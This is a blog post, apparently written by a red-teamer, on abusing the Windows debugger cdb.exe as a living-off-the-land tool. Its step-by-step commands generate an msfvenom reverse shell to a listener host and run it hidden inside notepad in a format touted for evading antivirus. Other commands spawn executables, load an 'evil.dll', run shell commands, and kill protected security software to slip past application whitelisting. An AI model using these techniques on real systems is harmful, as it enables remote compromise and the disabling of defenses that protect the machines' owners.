 ```yaml
---
title: The Power of Cdb.exe
date: "2021-01-08"
---
```


Exploring the little known uses of cdb<!-- end -->.

I personally feel cdb doesn't get the credit it deserves, I mean it has <i>a lot</i> of uses. If I missed any use case feel free to DM me on Twitter.

# Table of Contents

1. Running Shellcode
2. Launching an Executable
3. Running a DLL
4. Executing Shell Commands
5. Terminating Security Solutions

# Running Shellcode

Exploit Monday released a great <a href="http://www.exploit-monday.com/2016/08/windbg-cdb-shellcode-runner.html">article</a> in 2016 showing how to use cdb.exe to run shellcode and bypass application whitelisting. Essentially what you do is:

1. Allocate RWX memory
2. Copy the shellcode to the allocated buffer
3. Run it

There's nothing difficult about it but I felt as though the unusual shellcode syntax may have scared off some people from trying this technique as it looks quite intimidating at first glance. Let's see how to convert to regular shellcode to the one used by cdb.

## Converting the Shellcode

    #Input
    \x6a

    #Conversion formula
    #Strip '\x' and convert shellcode to uppercase
    #hex_counter starts at 00
    ";eb @$t0+" + hex_counter + " " + upper(strip(shellcode))

    #Output
    ;eb @$t0+00 6A

It's that easy! It's also great at evading AV detection due to its unusual format. If you're lazy like me and don't want to write a script then you're in luck, here's a usable <a href="https://github.com/galoryber/MITRE/blob/master/Defense_Evasion/T1127-CDB.py">script</a> I found online.

## Example

1. Generate shellcode using msfvenom

        msfvenom -p window/x64/shell_reverse_tcp LHOST=10.0.0.197 LPORT=4444 -f python

2. Download the aforementioned script and replace the shellcode with yours then run the script

        python3 script.py > test.wds

3. Send it over to the target machine and use the following command

        cdb.exe -pd -cf c:\path\to\payload\test.wds -o notepad.exe

![Shellcode-Run](./shellcode_run.gif)

Notepad won't appear to the user but it is running in the background. The notepad process looks benign until you see that it's establishing a network connection, so it'd be better to use a more realistic program.

![Notepad-Network](./notepad_tcp.png)

# Launching an Executable

You can use cdb to spawn an executable as a child process. You'll need to attach to a running process, it can be anything. I'll be attaching to notepad.

    #use -p to specify PID instead
    cdb.exe -pd -pn notepad.exe -a "c:\users\mr.d0x\desktop\out.exe"

    #When it hits any breakpoint press 'g'
    ntdll!DbgBreakPoint:
    00007ffb`58a60120 cc
    0:003> g

![Launch-Executable](./launch_exe.gif)

Looking at Process Hacker we see cdb spawning the executable as a child process.

![Child-Process](./child_processes.png)

You can also hit CTRL+C then 'q' in the cdb console and it'll exit cdb without impacting the executable or the process it's attached to, thanks to the -pd flag. The downside of doing that is losing cdb as the parent process.

![No-Parent](./no_parent.png)

# Running a DLL

You can use cdb to load a DLL. The DLL is loaded inside cdb not the attached process. The downside of this technique is it won't work if you don't have the rest of the debugger tools because it requires additional DLLs that are located inside the directory.

To execute a DLL, first attach cdb to any process.

    cdb.exe -pd -pn notepad.exe

Then use the .load command and specify the full path to your DLL.

    .load c:\path\to\dll\evil.dll

![DLL-Injection](./dll_injection.gif)

If we look at the DLLs loaded by cdb we see our inject DLL, d32lib.dll.

![Cdb-DLLs](./dll_cdb.png)

# Executing Shell Commands

Again, attach cdb to any process.

    cdb.exe -pd -pn notepad.exe

Use .shell to run a shell command.

    .shell ping 127.0.0.1

![Shell-Cmd](./shell_command.png)


In Process Hacker we can see that cdb spawns cmd.exe to run these commands.

![Cdb-Children-Processes](./spawn.png)

# Terminating Security Solutions

Have you ever tried to stop a security solution? If you did then you probably got something like this:

![Access-Denied](./access_denied.png)

How can cdb help? If you can get cdb to attach to a process then you can cause it to terminate. I used this unorthodox technique against an application whitelisting tool that shall remain unnamed. It caused the process to terminate which gave me a window of about 30 seconds to run any executable I wanted.

    #Run this as administrator
    #If you don't get 'Access denied' then just press 'q'
    #The attached process will then terminate
    cdb.exe -p <PID>

# References

* http://www.exploit-monday.com/2016/08/windbg-cdb-shellcode-runner.html
* https://github.com/galoryber/MITRE/blob/master/Defense_Evasion/T1127-CDB.py
* https://fortynorthsecurity.com/blog/how-to-bypass-wdac-with-dbgsrv-exe/

# Acknowledgement

Shout out to <a href="https://www.instagram.com/spooky_sec/">@spooky_sec</a> for helping me out in running some of these tests. Follow him on Instagram for good reverse engineering posts.

